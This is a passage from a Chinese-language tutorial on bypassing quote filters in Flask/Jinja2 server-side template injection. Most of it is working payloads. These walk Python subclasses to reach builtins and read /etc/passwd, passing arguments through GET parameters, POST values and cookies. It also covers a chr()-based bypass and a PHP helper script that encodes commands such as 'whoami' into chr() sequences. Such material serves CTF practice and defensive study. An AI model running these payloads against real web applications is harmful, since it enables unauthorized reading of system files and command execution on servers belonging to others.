 过滤了`'`和`"`

*   `request`绕过
    

flask 中存在着`request`内置对象可以得到请求的信息，`request`可以用 5 种不同的方式来请求信息，我们可以利用他来传递参数绕过

```
request.args.name
request.cookies.name
request.headers.name
request.values.name
request.form.name
```

payload 如下

`GET`方式，利用`request.args`传递参数

```
{{().__class__.__bases__[0].__subclasses__()[213].__init__.__globals__.__builtins__[request.args.arg1](request.args.arg2).read()}}&arg1=open&arg2=/etc/passwd
```

`POST`方式，利用`request.values`传递参数

```
{{().__class__.__bases__[0].__subclasses__()[40].__init__.__globals__.__builtins__[request.values.arg1](request.values.arg2).read()}}
post:arg1=open&arg2=/etc/passwd
```

`Cookie`方式，利用`request.cookies`传递参数

```
{{().__class__.__bases__[0].__subclasses__()[40].__init__.__globals__.__builtins__[request.cookies.arg1](request.cookies.arg2).read()}}
Cookie:arg1=open;arg2=/etc/passwd
```

剩下两种方法也差不多，这里就不赘述了

*   chr 绕过
    

```
{{().__class__.__base__.__subclasses__()[§0§].__init__.__globals__.__builtins__.chr}}
```

这里先爆破`subclasses`，获取`subclasses`中含有 chr 的类索引

![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LfP3o9TibDf1JBXWRqr32SuHCG3eJXltI5diaHXibOCtZeEMM1avic0W9Uq4RUOZKh7QKqjhibuMKjUSSQ/640?wx_fmt=png)

然后就可以用 chr 来绕过传参时所需要的引号，然后需要用 chr 来构造需要的字符

这里我写了个脚本可以快速构造想要的 ascii 字符

```
<?php
$a = 'whoami';
$result = '';
for($i=0;$i<strlen($a);$i++)
{
 $result .= 'chr('.ord($a[$i]).')%2b';
}
echo substr($result,0,-3);
?>
//chr(119)%2bchr(104)%2bchr(111)%2bchr(97)%2bchr(109)%2bchr(105)
```
